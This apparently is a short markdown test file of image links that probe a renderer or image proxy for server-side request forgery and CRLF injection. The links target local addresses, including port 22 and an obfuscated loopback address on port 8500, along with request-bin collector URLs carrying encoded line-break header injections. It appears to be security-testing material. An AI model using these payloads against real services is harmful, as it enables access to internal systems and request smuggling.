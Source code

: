 # test


Commenté

! [0.0.0.0](http://0.0.0.0/ "http://0.0.0.0/")
! [0.0.0.0:22](http://0.0.0.0:22/ "http://0.0.0.0:22/")
! [127.0x00.0.0.1:8500](http://127.0x00.0.0.1:8500/ "http://127.0x00.0.0.1:8500/")

WIP

! [wip1](http://nicob.net/redirbin)
! [wip2](http://requestb.in/1mnpim41?direct_mode)
! [wip3](http://requestb.in/1mnpim41?crlf1%0D%0A222=x&y=crlf3%0D%0A444)
! [wip4](http://req%0D%0Auestb.sqli.nicob.net/1mnpim41?crlf1%0D%0A222=x&y=crlf3%0D%0A444)
![wip5](http://requestb.in/1mnpim41?x=crlf6
777)
![wip6](http://requestb.in/1mnpim41?z=crlf8\r\n999)
![wip7](http://requestb.in/1mnpim41?y=crlf0\\r\\n000)
